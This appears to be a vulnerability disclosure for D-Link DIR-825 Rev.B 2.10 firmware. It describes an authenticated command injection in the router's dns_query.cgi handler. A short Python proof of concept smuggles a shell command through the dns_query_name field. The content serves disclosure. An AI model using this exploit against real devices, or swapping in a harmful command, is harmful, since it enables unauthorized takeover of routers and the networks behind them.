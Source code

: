 ### Description 
```
there is a command injection vulnerability that can cause any system command to be executed after user authentication 

Vulnerability location: file:  /sbin/httpd

The attacker calls this function by sending a post packet to the http://ip/dns_query.cgi
```

### Firmware version
```
version: Rev.B 2.10
download link: ftp://ftp2.dlink.com/SECURITY_ADVISEMENTS/DIR-825/REVB/
```

### Post package
```
   5 ip = "http://192.168.0.1/"
   6
   7 url = ip + 'dns_query.cgi'
   8
   9 command = "a;echo 1 > /tmp/hello2;"
  10 payload = {
  11     "html_response_page": "back.asp",
  12     "dns_query_name": command,
  13     "html_response_return_page": "st_routing.asp",
  14     "countdonw_time": '12',
  15 }
  16
  17 r = requests.post(url, data=payload)
```

### Exploit exp
`python3 dns-query-comm.py`

### Example output
![Example output](./img/dns_query_name_command_inject.jpg)

